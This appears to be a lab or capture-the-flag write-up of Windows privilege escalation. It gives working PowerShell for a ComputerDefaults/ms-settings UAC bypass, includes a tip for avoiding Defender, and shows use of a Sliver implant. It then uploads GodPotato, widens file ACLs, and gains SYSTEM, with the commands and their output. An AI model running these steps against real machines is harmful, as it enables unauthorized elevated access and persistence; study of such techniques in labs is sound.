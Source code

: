 
# Elevate 
I'll try a number of UAC bypasses.  What I found worked for me is the ComputerDefaults bypass.

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd.exe /c \windows\tasks\a.exe" -Force

\#\# Then execute with:  ComputerDefaults.exe (triggers based on the same registry key.  Full path pops defender, try running without full path)
c:\Windows\System32\ComputerDefaults.exe
```

I get a new session:
```sh
[*] Session e7b84ea7 REMOTE_JACKAL - 10.129.35.177:63623 (rainbow) - windows/amd64 - Sun, 26 Oct 2025 17:02:15 PDT

sliver (REMOTE_JACKAL) >
```

I'll clean up the registry
```powershell
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```


# Escalate

On the new session, I find that the process integrity is High, and the process tokens include SeImpersonatePrivilege in an enabled state

![[Pasted_image_20251026171700.png]]

Upload GodPotato
```sh
sliver (REMOTE_JACKAL) > upload /var/www/html/GodPotato-NET4.exe /windows/tasks/GodPotato.exe

[*] Wrote file to C:\windows\tasks\GodPotato.exe
```

Loosen DACLs around files in `c:\windows\tasks`
```sh
$path="c:\windows\tasks"; (Get-ChildItem -path $path\* -Recurse).FullName | % {$Acl = Get-ACL $_; $AccessRule= New-Object System.Security.AccessControl.FileSystemAccessRule("Everyone","FullControl","none","none","Allow");$Acl.AddAccessRule($AccessRule);Set-Acl $_ $Acl}
```

Execute GodPotato, have it daemonize another instance of the Sliver implant
```powershell
PS C:\windows\tasks> .\GodPotato.exe -cmd "cmd.exe /c \windows\tasks\a.exe"
.\GodPotato.exe -cmd "cmd.exe /c \windows\tasks\a.exe"
[*] CombaseModule: 0x140709195350016
[*] DispatchTable: 0x140709197652048
[*] UseProtseqFunction: 0x140709197029744
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\aabfbcee-7777-4b84-bb35-19b7430af1b9\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00000802-16c8-ffff-1d75-8eaf76328c8b
[*] DCOM obj OXID: 0x48fca28fb7e0a860
[*] DCOM obj OID: 0xdc03a523a80cc5fc
```